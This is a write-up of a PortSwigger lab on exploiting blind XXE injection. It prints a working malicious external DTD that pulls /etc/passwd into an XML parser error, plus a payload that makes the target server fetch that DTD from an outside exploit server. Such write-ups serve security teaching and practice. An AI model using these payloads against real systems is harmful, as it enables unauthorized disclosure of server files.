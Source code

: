 # Exploiting blind XXE to retrieve data via error messages

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages), you'll learn: Exploiting blind XXE to retrieve data via error messages! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063634.png)

In the previous labs, we found that **there is an XXE injection vulnerability in the "Check stock" feature, which parses XML input.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063710.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063721.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063803.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

As you can see, it **does not display the result**, which indicates that this is a **blind XXE injection**.

To exploit that, we can trigger an XML parsing error, and the error message contains the sensitive data, like `/etc/passwd`.

**In the lab, we have an exploit server, which allows us to host a malicious external DTD:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064200.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064216.png)

**Our malicious external DTD:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///errorpls/%file;'>">
%eval;
%error;
```

**Which will:**

- Define an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Define an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
- Use the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
- Use the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064740.png)

**Next, to let the target server fetches our malicious external DTD, we can send the following XXE payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "https://exploit-0a23009a04971e0cc67c8e9a01d90009.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Which will:**

- Define an an XML parameter entity called `xxe`, which fetches our exploit server's malicious DTD and interpret it inline

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064923.png)

We did it!

# What we've learned:

1. Exploiting blind XXE to retrieve data via error messages